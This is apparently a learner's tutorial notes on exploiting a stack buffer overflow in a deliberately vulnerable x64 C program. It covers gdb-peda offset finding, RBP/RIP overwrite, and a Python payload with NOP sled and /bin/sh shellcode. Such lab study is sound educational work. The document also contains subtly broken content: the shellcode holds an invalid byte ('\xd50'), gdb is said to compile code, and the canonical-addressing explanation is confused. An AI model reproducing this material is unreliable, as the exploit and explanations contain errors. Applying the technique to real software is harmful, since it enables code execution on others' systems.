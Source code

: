 Resources used : https://www.youtube.com/watch?v=gxU3e7GbC-M : x64 Linux Binary Exploitation Training : Souce Meets Sink | https://www.theoffensivelabs.com/p/x64-linux-binary-exploitation-live-training 

So lets start with our basic BufferOverflow, I am using the code the course provided us with :
```c
#include<stdio.h> 
#include<string.h> 
void vuln_func(char *input); 

int main(int argc, char *argv[]){ 
	if(argc>1) 
	vuln_func(argv[1]); 
} 
	
void vuln_func(char *input){ 
	char buffer[256]; 
	strcpy(buffer, input); 
}
```
(This code was taken from the course, and is not written by me)

and then we can use gdb to compile the code for us without any protections. For most of our exploit development core files are very important as they have all the infromation about the dump for us and this is generated automatically when we get a segfault. If it doesnt generate automatically we can use :

```bash
ulimit -c unilimited
```

and then from this core file we can analyse whatever happened in the crash and we can analyse these core files using gdb like this :
```bash
gdb -core core
```

With 64bit we wont be by default see 4141414141 on RIP due to a concept called canonical bytes so with these exploits we usually overwrite the RBP and if thats overwritten thats all we need as out of the box.

We can load up binaries in GDB like so : 

```
gdb ./binary
```
Ideally you would also wanna do checksec on the binary but as we compiled it we know its alright and has no security enabled.

and then if we have a paylaod file with us we can use/pass our payload to it like this :

```
run $(cat payloadfile)
```

and ideally its a good Idea to also put a breakpoint at main to analyse the registers.
We can dissasmble and see assembly code of a function using the command `disas main` or `disas func`

Also break points are put using `b *address` and then you can continue `c`.

So we wont be able to overwrite the RIP as if you see the vmap of the binary we will see that out of the 64 bit only 48bits are used which is called canonical addressing so when you address a memory you can only use 48bit addresses but when we are overwriting it we are passing it a 8 byte (64 bits) addressing (non canonical) and the RIP wont accept it and these addresses are only used by the kernel and to pass a canonical byte to the RIP we need to get the offset of RBP and then using that information to overwrite the RIP with 6 bytes in the non-cononical addressing.

To get this offset we can use pattern_create which is a module in gdb-peda which is what i am using

```bash
gdb-peda> pattern_create 400 payload.txt
gdb-peda> run $(cat payload.txt)
```
after doing this with enough of a payload to crash a segfault and overwriting the RBP we can copy the value in RBP and use pattern_offset
```bash
gdb-peda> pattern_offset "RBPText"
```
and it will give us the exact offset to overwrite the RBP, now we can overwrite the RBP using the offset and supplying input for the RBP where we can use non-canonical addressing bytes(8 bytes) and then pass a canonical address (6 bytes) to overwrite the RIP with the 6bytes we passed like so :

```python

# Assuming offset is 128
padding = "A" * 128
rbpvalue = "B" * 8 # noncanonical addressing
ripvalue = "C" * 6 # canonical addressing
```

ret does pop rip which pops the value on the top of the stack to RIP. Here is some shellcode from the course that we can use :
```bash
\x48\x31\xc0\x48\x89\xc2\x48\x89\xd6\xd50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x48\x83\xc0\x3b\x0f\x05
```

Now we can use the shellcode and modify the pading and use some payloads to exploit this.

```python
offset = 128 
shellcode = "\x48\x31\xc0\x48\x89\xc2\x48\x89\xd6\xd50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x48\x83\xc0\x3b\x0f\x05"

nop = "\x90" * 12

offset = offset - len(shellcode) - len(nop)
padding = "A" * offset 
rbpvalue = "B" * 8 # noncanonical addressing
ripvalue = "C" * 6 # canonical addressing
payload = nop + shellcode + padding + rbpvalue + ripvalue
```

Now we need to find the address where our payload is stored using gdb and the x/50gx function and printing the stuff near $rsp and subtracting a little bit of padding we sent from it like this : 
```bash
x/50gx $rsp-140
```
but sometimes we wont get the exact same address in gdb that we will get while execute thats when we can use the core file and see where the address is and modify our exploit and then gg.

If the function is using a more vulnerable function like gets we can use instructions like JMP RSP , JMP RBX and point in our RIP and in the case JMP RSP we would need to have our shellcode right after the RIP as JMP RSP will jump to the top of the stack and our code whcih is directely after that will pop on to the top of the stack.

JMP RBX on the other hand would work only whethere shell code is in RBX and then we can use a fellow JMP RBX command and jump to that.

